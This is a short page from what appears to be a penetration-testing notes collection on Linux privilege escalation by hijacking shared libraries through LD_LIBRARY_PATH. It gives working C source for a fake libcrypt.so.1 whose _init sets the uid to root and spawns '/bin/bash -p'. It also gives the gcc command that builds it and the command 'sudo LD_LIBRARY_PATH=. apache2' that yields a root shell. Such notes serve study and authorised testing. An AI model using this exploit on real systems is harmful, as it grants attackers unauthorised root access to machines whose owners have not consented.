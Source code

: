 # LD\_LIBRARY\_PATH

The LD\_LIBRARY\_PATH environment variable contains a set of directories where shared libraries are searched for first.

The ldd command can be used to print the shared libraries used by a program:

#### `ldd /usr/sbin/apache2`

By creating a shared library with the same name as one used by a program, and setting LD\_LIBRARY\_PATH to its parent directory, the program will load our shared library instead.

Run ldd against the apache2 program file:

#### `ldd /usr/sbin/apache2`

![](<../../../../.gitbook/assets/1 (21).png>)

Hijacking shared objects using this method is hit or miss. Choose one from the list and try it (libcrypt.so.1 seems to work well).

Create a file (library\_path.c) with the following contents:

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setresuid(0,0,0);
system("/bin/bash -p");
}

```

Compile library\_path.c into libcrypt.so.1:

#### `gcc -o libcrypt.so.1 -shared -fPIC library_path.c`

Run apache2 using sudo, while setting the LD\_LIBRARY\_PATH environment variable to the current path (where we compiled library\_path.c):

#### `sudo LD_LIBRARY_PATH=. apache2`

![](../../../../.gitbook/assets/env4.png)
